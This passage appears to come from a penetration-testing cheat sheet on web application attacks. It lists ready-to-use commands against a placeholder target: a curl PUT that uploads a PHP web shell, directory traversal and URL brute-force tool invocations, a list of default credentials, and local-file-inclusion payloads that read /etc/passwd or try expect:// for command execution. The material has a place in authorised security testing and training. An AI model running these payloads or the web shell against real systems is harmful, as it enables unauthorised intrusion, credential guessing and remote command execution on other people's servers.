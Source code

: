 ```

# Look at page with just text
curl INSERTIPADDRESS -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix

```

#### Default/Weak login

Search documentation for default passwords and test them

```
site:webapplication.com password
https://cirt.net/passwords
```

```
admin admin
admin password
admin <blank>
admin <servicename>
root root
root admin
root password
root <servicename>
<username if you have> password
<username if you have> admin
<username if you have> username
username <servicename>
```

#### Url brute force

```
# Dirb
dirb http://INSERTIPADDRESS -r -o dirb-INSERTIPADDRESS.txt

#To append a .pl to the end of the resolutions:
dirb http://INSERTIPADDRESS/somedirectory -X .pl

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://INSERTIPADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

#### LFI/RFI

```
fimap -u "http://INSERTIPADDRESS/example.php?test="
http://kaoticcreations.blogspot.com/2011/08/automated-lfirfi-scanning-exploiting.html

# Checks
http://INSERTIPADDRESS/gallery.php?page=/etc/passwd
http://INSERTIPADDRESS/gallery.php?page=/etc/passwd%00

http://INSERTIPADDRESS/gallery.php?page=../../../../../../etc/passwd
http://INSERTIPADDRESS/gallery.php?page=../../../../../../etc/passwd%00

http://INSERTIPADDRESS/gallery.php?page=expect://ls
*If you get a warning include() error it is not affected
Else for shell:
POST this with tamper data to http://INSERTIPADDRESS/gallery.php?page=expect://ls
```